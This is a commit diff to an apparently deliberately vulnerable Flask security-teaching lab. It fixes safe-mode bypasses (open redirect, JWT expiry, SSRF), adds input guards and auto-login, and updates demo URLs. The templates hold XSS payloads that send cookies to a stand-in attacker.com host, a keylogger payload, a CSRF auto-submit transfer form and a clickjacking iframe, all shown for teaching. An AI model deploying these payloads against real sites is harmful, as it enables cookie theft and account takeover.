

Before and after one commit to Cybevion/vulnhub, a Flask app: page /xss/stored?safe=0 in a window 1280 px wide. Shown: the whole page at 96% size. Before the commit the page ends 954 px from the top, so only its background shows below. Run offline with Flask 3, Linux system fonts and the light colour scheme; the visitor is signed in with stand-in values (Sample User, id 1); data comes from the database, SQL or seed files in the repository; parts of the project's set-up code (start-up, migrations or seed data) failed here and were passed over.

Commit message:
Fix safe-mode bypasses, add input guards and lab auto-login
Several "safe mode" paths did not actually protect, and several routes
crashed on hostile input. Also removes the login-wall friction for
classroom use.

Safe-mode fixes:
- open redirect: reject protocol-relative ("//evil.com") and backslash
  targets; allowlist now tracks the live request host
- JWT: enforce the exp claim in safe verification
- SSRF: replace the string blocklist with DNS resolution + private/reserved
  IP checks (catches 127.1, decimal IPs, IPv6, etc.)

Robustness:
- guard non-numeric input in idor/orders, logic/checkout, csrf/transfer
  and the presentation-state POST (were unhandled 500s)

Other:
- direct-run now debug=False (closes the Werkzeug console RCE)
- fix stale localhost:5000 references; broken XSS demo fetch() made relative
- @login_required auto-authenticates as the default lab user (alice) and a
  banner explains it; nav shows the current user on every page via a
  context processor

Co-Authored-By: Claude Opus 4.8 <noreply@anthropic.com>

```diff
--- a/app.py
+++ b/app.py
@@ -118,13 +118,25 @@ def current_user():
     conn.close()
     return user
 
+DEFAULT_LAB_USER_ID = 2  # alice — the default identity for classroom convenience
+
 def login_required(f):
     @wraps(f)
     def decorated(*args, **kwargs):
         if not session.get("user_id"):
-            return redirect(url_for("login_page"))
+            # Lab convenience: auto-authenticate as the default demo user (alice)
+            # instead of bouncing students to a login wall. An authenticated
+            # session is a *precondition* for the IDOR and CSRF demos, so we grant
+            # one rather than require a manual login. Students can still switch
+            # identity via /login or by exploiting the SQLi auth-bypass module.
+            session["user_id"] = DEFAULT_LAB_USER_ID
         return f(*args, **kwargs)
     return decorated
+
+@app.context_processor
+def inject_current_user():
+    # Makes `current_user` available to every template (nav + lab banner).
+    return {"current_user": current_user()}
 
 def make_jwt(payload: dict, secret: str = "weak") -> str:
     header = base64.urlsafe_b64encode(json.dumps({"alg":"HS256","typ":"JWT"}).encode()).rstrip(b"=").decode()
@@ -153,6 +165,10 @@ def verify_jwt(token: str, safe: bool = False):
             expected_sig = hmac.new(secret.encode(), sig_input, hashlib.sha256).digest()
             provided_sig = base64.urlsafe_b64decode(pad(parts[2]))
             if not hmac.compare_digest(expected_sig, provided_sig):
+                return None
+            # enforce expiry — a valid signature on an expired token is still invalid
+            exp = payload.get("exp")
+            if exp is not None and time.time() > exp:
                 return None
         else:
             # VULNERABLE: accept alg:none — skip signature verification
@@ -340,9 +356,14 @@ def idor_orders():
 
     conn = get_db()
     if safe:
-        if int(target_id) != session["user_id"]:
+        try:
+            target_id_int = int(target_id)
+        except (TypeError, ValueError):
             conn.close()
-            return render_template("idor_orders.html", safe=safe, error="Access Denied.", orders=[], own_id=session["user_id"])
+            return render_template("idor_orders.html", safe=safe, error="Invalid user ID.", orders=[], own_id=session["user_id"], target_id=target_id)
+        if target_id_int != session["user_id"]:
+            conn.close()
+            return render_template("idor_orders.html", safe=safe, error="Access Denied.", orders=[], own_id=session["user_id"], target_id=target_id)
         orders = conn.execute("SELECT * FROM orders WHERE user_id=?", (session["user_id"],)).fetchall()
     else:
         orders = conn.execute("SELECT * FROM orders WHERE user_id=?", (target_id,)).fetchall()
@@ -371,7 +392,10 @@ def csrf_transfer():
 
     if request.method == "POST":
         to_user = request.form.get("to_user", "")
-        amount  = float(request.form.get("amount", 0))
+        try:
+            amount = float(request.form.get("amount", 0) or 0)
+        except (TypeError, ValueError):
+            amount = 0.0
 
         if safe:
             # validate CSRF token
@@ -386,7 +410,7 @@ def csrf_transfer():
 
     csrf_poc = f"""<html>
 <body onload="document.forms[0].submit()">
-  <form action="http://localhost:5000/csrf/transfer?safe=0" method="POST">
+  <form action="{request.host_url}csrf/transfer?safe=0" method="POST">
     <input name="to_user" value="attacker">
     <input name="amount"  value="9999">
   </form>
@@ -494,13 +518,30 @@ def serve_upload(filename):
 
 import urllib.request
 import urllib.parse
+import ipaddress
+import socket
 
-SSRF_BLOCKLIST = [
-    "169.254.", "192.168.", "10.", "172.16.", "172.17.", "172.18.",
-    "172.19.", "172.20.", "172.21.", "172.22.", "172.23.", "172.24.",
-    "172.25.", "172.26.", "172.27.", "172.28.", "172.29.", "172.30.",
-    "172.31.", "127.", "0.0.0.0", "localhost", "::1"
-]
+
+def resolves_to_private(host: str) -> bool:
+    """Resolve a hostname to every IP it maps to and return True if ANY of them
+    is private/loopback/link-local/reserved. Resolving defeats decimal-IP,
+    '127.1', IPv6 and DNS-name tricks that a string blocklist misses."""
+    try:
+        infos = socket.getaddrinfo(host, None)
+    except socket.gaierror:
+        # can't resolve — treat as unsafe rather than fetch blindly
+        return True
+    for info in infos:
+        ip_str = info[4][0]
+        try:
+            ip = ipaddress.ip_address(ip_str)
+        except ValueError:
+            return True
+        if (ip.is_private or ip.is_loopback or ip.is_link_local
+                or ip.is_reserved or ip.is_multicast or ip.is_unspecified):
+            return True
+    return False
+
 
 @app.route("/ssrf/fetch")
 def ssrf_fetch():
@@ -512,14 +553,14 @@ def ssrf_fetch():
 
     if url:
         if safe:
-            # check against blocklist
+            # Resolve the host and reject any that maps to an internal IP.
             parsed = urllib.parse.urlparse(url)
             host = parsed.hostname or ""
-            if any(host.startswith(b) or host == b.rstrip(".") for b in SSRF_BLOCKLIST):
+            if parsed.scheme not in ("http", "https"):
+                error = f"SSRF Protection: Schema '{parsed.scheme}' not allowed. Only http/https permitted."
+            elif not host or resolves_to_private(host):
                 blocked = True
-                error = f"SSRF Protection: Host '{host}' is in the blocklist (internal/cloud metadata IP ranges)."
-            elif parsed.scheme not in ("http", "https"):
-                error = f"SSRF Protection: Schema '{parsed.scheme}' not allowed. Only http/https permitted."
+                error = f"SSRF Protection: Host '{host}' resolves to an internal/reserved address (or cannot be resolved)."
             else:
                 try:
                     req = urllib.request.urlopen(url, timeout=3)
@@ -624,7 +665,7 @@ def ssti():
 # 11. OPEN REDIRECT
 # ══════════════════════════════════════════════════════════════════════════════
 
-ALLOWED_REDIRECTS = ["http://localhost:5000", "https://vulnlab.local"]
+ALLOWED_REDIRECTS = ["https://vulnlab.local"]
 
 @app.route("/redirect")
 def open_redirect():
@@ -632,9 +673,20 @@ def open_redirect():
     url = request.args.get("url", "/")
     warning = None
 
+    # The app's own origin is always a valid redirect target, whatever port it
+    # runs on (5002 direct / 5005 docker), so derive it from the live request.
+    allowed = ALLOWED_REDIRECTS + [request.host_url.rstrip("/")]
+
     if safe:
         parsed = urllib.parse.urlparse(url)
-        if parsed.scheme and not any(url.startswith(a) for a in ALLOWED_REDIRECTS):
+        # Browsers treat backslashes as forward slashes, so normalise before the
+        # "//" check to catch "/\evil.com" and "\/\/evil.com" style bypasses.
+        normalised = url.replace("\\", "/")
+        # A safe internal redirect is a relative path: no scheme AND no netloc, and
+        # not protocol-relative ("//evil.com") or scheme-relative ("https:evil.com").
+        is_relative = (not parsed.scheme) and (not parsed.netloc) and not normalised.startswith("//")
+        is_allowlisted = any(url.startswith(a + "/") or url == a for a in allowed)
+        if not (is_relative or is_allowlisted):
             warning = f"Redirect blocked: '{url}' is not in the allowlist."
             return render_template("open_redirect.html", safe=safe, url=url, warning=warning)
     return redirect(url)
@@ -680,9 +732,13 @@ def logic_checkout():
     ]
 
     if request.method == "POST":
-        item_id = int(request.form.get("item_id", 0))
-        quantity = int(request.form.get("quantity", 1))
-        client_price = float(request.form.get("price", 0))
+        try:
+            item_id = int(request.form.get("item_id", 0))
+            quantity = int(request.form.get("quantity", 1))
+            client_price = float(request.form.get("price", 0))
+        except (TypeError, ValueError):
+            return render_template("logic_checkout.html", safe=safe, items=items,
+                                   message=None, error="Item, quantity and price must be numeric.")
 
         item = next((i for i in items if i["id"] == item_id), None)
         if not item:
@@ -760,7 +816,10 @@ def api_message(msg_id):
 
 if __name__ == "__main__":
     init_db()
-    app.run(debug=True, host="0.0.0.0", port=5002)
+    # debug=False: the Werkzeug interactive debugger is a remote-console RCE when
+    # bound to 0.0.0.0 — a real risk beyond the intended teaching modules. The app
+    # is deliberately vulnerable, but not *that* way. (Matches the Docker CMD.)
+    app.run(debug=False, host="0.0.0.0", port=5002)
 
 # ══════════════════════════════════════════════════════════════════════════════
 # PRESENTATION MODE
@@ -783,9 +842,12 @@ def pres_get_state():
 
 @app.route("/api/presentation/state", methods=["POST"])
 def pres_set_state():
-    data = request.get_json()
+    data = request.get_json(silent=True) or {}
     if "module" in data:
-        _presentation_state["module"] = int(data["module"])
+        try:
+            _presentation_state["module"] = int(data["module"])
+        except (TypeError, ValueError):
+            return jsonify({"error": "module must be an integer"}), 400
     return jsonify(_presentation_state)
 
 # ══════════════════════════════════════════════════════════════════════════════
--- a/templates/base.html
+++ b/templates/base.html
@@ -392,14 +392,21 @@ nav {
     <a href="/api/users">API</a>
   </div>
   <div class="nav-right">
-    {% if user %}
-      <span class="nav-user">logged in as <strong>{{ user.username }}</strong></span>
+    {% if current_user %}
+      <span class="nav-user">logged in as <strong>{{ current_user.username }}</strong></span>
       <a href="/logout" class="btn btn-red" style="padding:0.3rem 0.8rem;font-size:11px;">logout</a>
     {% else %}
       <a href="/login" class="btn btn-green" style="padding:0.3rem 0.8rem;font-size:11px;">login</a>
     {% endif %}
   </div>
 </nav>
+
+{% if current_user %}
+<div class="lab-banner" style="background:rgba(30,144,255,0.08);border-bottom:1px solid var(--border);border-left:3px solid var(--blue);color:var(--light);font-size:12px;line-height:1.5;padding:0.5rem 2rem;display:flex;align-items:flex-start;gap:0.6rem;">
+  <span aria-hidden="true">🎓</span>
+  <span><strong style="color:var(--blue);">Lab mode</strong> — you're auto-logged-in as <strong style="color:var(--yellow);">{{ current_user.username }}</strong> (user&nbsp;#{{ current_user.id }}). Protected modules (IDOR, CSRF, File Upload, Checkout) won't stop you at a login wall. That authenticated session is <strong>intentional</strong> — it's part of what the IDOR &amp; CSRF attacks exploit. Switch identity via <a href="/login" style="color:var(--green);text-decoration:underline;">login</a> or the <a href="/sqli/login" style="color:var(--green);text-decoration:underline;">SQLi Auth-Bypass</a> module.</span>
+</div>
+{% endif %}
 
 <div class="layout">
   <aside class="sidebar">
--- a/templates/notes.html
+++ b/templates/notes.html
@@ -662,7 +662,7 @@ const NOTES = [
     ],
     script: [
       { icon: "🎤", text: "Security headers are the server's instructions to the browser. Each one blocks a class of attack. They're free to add. They take 5 minutes. And most applications are still missing several." },
-      { icon: "⚡", text: "Open terminal: <code>curl -I http://localhost:5000/headers?safe=0</code>. Headers: Content-Type, nothing else security-related. Now: <code>curl -I http://localhost:5000/headers?safe=1</code>. Six security headers appear." },
+      { icon: "⚡", text: "Open terminal: <code>curl -I http://localhost:5005/headers?safe=0</code>. Headers: Content-Type, nothing else security-related. Now: <code>curl -I http://localhost:5005/headers?safe=1</code>. Six security headers appear." },
       { icon: "💡", text: "Walk through the table: CSP blocks XSS, X-Frame-Options blocks clickjacking, HSTS forces HTTPS, nosniff blocks MIME confusion, Referrer-Policy stops URL leakage, Permissions-Policy disables features." },
       { icon: "💡", text: "Clickjacking: without X-Frame-Options, this page can be embedded in a transparent iframe on any site. Attacker overlays a fake button. Victim clicks 'Win a Prize' but actually clicks 'Confirm Transfer'." },
       { icon: "🛡️", text: "Adding these in Flask is six lines of code. There's no excuse for a production app to be missing them." },
--- a/templates/security_headers.html
+++ b/templates/security_headers.html
@@ -52,8 +52,8 @@
     <div class="card">
       <div class="card-header"><span>⚡</span><span class="card-title">Quick Check Commands</span></div>
       <div class="code-block" style="font-size:11px;"># Check headers with curl
-curl -I http://localhost:5000/headers?safe=0
-curl -I http://localhost:5000/headers?safe=1
+curl -I http://localhost:5005/headers?safe=0
+curl -I http://localhost:5005/headers?safe=1
 
 # Online scanner (for public sites):
 # → securityheaders.com
@@ -89,7 +89,7 @@ def add_security_headers(resp):
     top:0; left:0; width:100%; height:100%; }
 &lt;/style&gt;
 &lt;button&gt;Win a Prize!&lt;/button&gt;
-&lt;iframe src="http://localhost:5000/csrf/transfer?safe=0"&gt;
+&lt;iframe src="http://localhost:5005/csrf/transfer?safe=0"&gt;
 &lt;/iframe&gt;</div>
       </div>
     </div>
--- a/templates/xss_reflected.html
+++ b/templates/xss_reflected.html
@@ -39,8 +39,8 @@
     <div class="card">
       <div class="card-header"><span>🔗</span><span class="card-title">Craft Phishing URL</span></div>
       <div style="font-size:12px;color:var(--gray);margin-bottom:0.75rem;">An attacker would share this link. The victim clicks it, their browser runs the script:</div>
-      <div class="code-block" style="word-break:break-all;font-size:11px;">http://localhost:5000/xss/reflected?safe=0&q=<span style="color:var(--red);">&lt;script&gt;alert(document.cookie)&lt;/script&gt;</span></div>
-      <div class="code-block" style="word-break:break-all;font-size:11px;">http://localhost:5000/xss/reflected?safe=0&q=<span style="color:var(--red);">&lt;img src=x onerror=fetch('//attacker.com?c='+document.cookie)&gt;</span></div>
+      <div class="code-block" style="word-break:break-all;font-size:11px;">http://localhost:5005/xss/reflected?safe=0&q=<span style="color:var(--red);">&lt;script&gt;alert(document.cookie)&lt;/script&gt;</span></div>
+      <div class="code-block" style="word-break:break-all;font-size:11px;">http://localhost:5005/xss/reflected?safe=0&q=<span style="color:var(--red);">&lt;img src=x onerror=fetch('//attacker.com?c='+document.cookie)&gt;</span></div>
     </div>
   </div>
 
--- a/templates/xss_stored.html
+++ b/templates/xss_stored.html
@@ -54,7 +54,7 @@
 
       {% set payloads = [
         ("<script>alert('XSS by '+document.domain)</script>", "Basic stored XSS"),
-        ("<script>fetch('http://localhost:5000/api/users').then(r=>r.json()).then(d=>alert(JSON.stringify(d[0])))</script>", "Steal API data"),
+        ("<script>fetch('/api/users').then(r=>r.json()).then(d=>alert(JSON.stringify(d[0])))</script>", "Steal API data"),
         ("<img src=x onerror=\"document.body.style.background='red'\">", "Page defacement"),
         ("<script>document.querySelectorAll('input').forEach(i=>i.addEventListener('change',e=>fetch('//log?k='+e.target.value)))</script>", "Keylogger via XSS"),
       ] %}
```
Also changed, not shown: static/js/presentation_data.js (+4 -4 lines).
